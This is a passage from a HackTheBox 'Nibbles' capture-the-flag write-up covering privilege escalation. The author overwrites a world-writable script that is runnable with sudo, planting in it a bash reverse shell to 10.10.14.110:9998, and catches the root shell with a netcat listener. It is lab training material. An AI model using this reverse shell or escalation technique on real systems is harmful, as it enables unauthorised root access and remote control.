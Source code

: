 ```bash
nibbler@Nibbles:/home/nibbler$ unzip personal.zip      
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
nibbler@Nibbles:/home/nibbler$ cat personal/stuff/monitor.sh
                  ####################################################################################################
                  #                                        Tecmint_monitor.sh                                        #
                  # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #
                  # If any bug, report us in the link below                                                          #
                  # Free to use/edit/distribute the code below by                                                    #
                  # giving proper credit to Tecmint.com and Author                                                   #
                  #                                                                                                  #
                  ####################################################################################################
#! /bin/bash
# unset any variable which system may be using

# clear the screen
clear

unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

while getopts iv name
do
        case $name in
          i)iopt=1;;
          v)vopt=1;;
          *)echo "Invalid arg";;
        esac
done
```
This is a tecmint monitor script, which does not pose any major issue on it's own, but the problem is I just extracted the file, which means I must have some degree of ownership over it now.
```bash
nibbler@Nibbles:/home/nibbler$ ls -l personal/stuff
total 4
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```
I have full write access to this file, which I can run as root.

### 6. Escalate to root.
I choose to just make a whole new file rather than modify the existing script.
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ mv monitor.sh monitor2.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ touch monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '#!/bin/bash' > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'bash -i >& /dev/tcp/10.10.14.110/9998 0>&1' >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh
```
All I do then is run my new script using sudo with a listener running:
```bash
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-hanbrktyaa]─[~/writeups/HackTheBox/HTB_Nibbles]
└──╼ [★]$ nc -lvnp 9998
listening on [any] 9998 ...
connect to [10.10.14.110] from (UNKNOWN) [10.129.60.60] 53720
```